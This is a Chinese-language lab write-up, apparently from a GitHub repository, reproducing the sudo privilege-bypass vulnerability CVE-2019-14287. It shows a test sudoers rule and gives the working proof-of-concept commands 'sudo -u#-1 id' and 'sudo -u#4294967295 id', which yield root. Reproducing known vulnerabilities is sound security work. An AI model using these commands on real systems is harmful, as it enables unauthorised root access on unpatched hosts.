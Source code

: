 CVE-2019-14287 sudo 权限绕过
----

咱不说原理，就说复现步骤，原理请自行google，或移步：
http://vulsee.com/archives/vulsee_2019/1015_9074.html

默认情况下，在大多数Linux发行版中如图所示，/etc /sudoers文件中RunAs规范中的ALL关键字允许admin或sudo组中的所有用户以系统上的任何有效用户身份运行任何命令。

#### 利用前提

用户具有 sudo 权限

####  复现过程

- 新建一个测试用户 axin
```
1. useradd axin 创建一个用户
2. passwd axin 给创建的用户设置密码
```



- 配置/etc/sudoers文件（对于这个配置文件不太了解的，可以多看看漏洞原理）
在sudoers文件中添加一行
`axin ALL=(ALL:!root) ALL`
![](assets/sudoers.png)



- 然后切换到测试用户axin,执行我们的poc
```
sudo -u#-1 id 或者 sudo -u#4294967295 id
```
![](assets/poc.png)

通过截图可以看到，原本我们的axin用户的uid是1000的，但是执行了我们的poc过后就变成了0,uid为0也正是root用户


至此，漏洞复现结束
